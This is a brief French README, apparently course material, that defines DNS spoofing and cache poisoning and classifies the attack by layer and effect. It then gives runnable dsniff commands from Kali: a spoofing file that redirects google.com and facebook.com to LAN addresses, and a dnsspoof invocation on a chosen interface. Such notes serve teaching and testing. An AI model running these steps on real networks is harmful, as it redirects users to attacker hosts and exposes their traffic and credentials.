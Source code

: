 ﻿# dns-spoof
## COUCHE 3
## COUCHE 7


### usurpation
### Escalade de privilège
### Dégradation de privilèges
### Déni de services,Divulgation des informations chiffrées

#### ATTAQUE = DNS_SERVER_SPOOFING

##### CONFIDENTIALITE
##### INTEGRITE
##### DISPONIBILITE

Description :
**DNS Spoofing** (ou **DNS Cache Poisoning**) est une attaque qui consiste à manipuler ou empoisonner le cache d'un serveur DNS, permettant ainsi à un attaquant de rediriger les utilisateurs vers des sites malveillants. Le mécanisme sous-jacent repose sur la manipulation des réponses DNS, où l'attaquant envoie de fausses informations DNS à une victime (un serveur ou un client), ce qui provoque un redirectionnement de la cible vers des adresses malveillantes.

Source :  https://github.com/nwhacks/dsniff


```
Vi dnsspoof_file
192.168.1.100 google.com 
192.168.1.101 facebook.com

```
Depuis une KALI

```
sudo apt-get install dsniff
sudo dnsspoof -i eth0 -f /path/to/dnsspoof_file

```
Remplacer eth0 par la carte étant sur le LAN à pieger
